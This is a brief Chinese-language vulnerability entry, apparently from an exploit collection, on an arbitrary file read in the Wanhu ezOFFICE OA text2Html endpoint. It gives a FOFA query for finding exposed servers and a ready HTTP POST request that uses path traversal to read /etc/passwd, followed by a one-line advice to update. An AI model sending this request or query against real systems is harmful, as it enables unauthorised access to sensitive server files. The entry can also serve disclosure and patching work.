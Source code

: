 **漏洞描述**

万户OA text2Html 接口存在文件读取漏洞，攻击者可以通过恶意构造的请求读取服务器上的任意文件，包括敏感的系统文件。此漏洞可能导致泄露敏感信息，为攻击者提供足够的信息来进一步渗透系统。

**漏洞环境**

FOFA：app="万户网络-ezOFFICE"

**漏洞复现**

```yaml
POST /defaultroot/convertFile/text2Html.controller HTTP/1.1

saveFileName=../../../etc/passwd&moduleName=html
```



**漏洞修复建议**

 请关注官方网站及时更新http://www.whir.net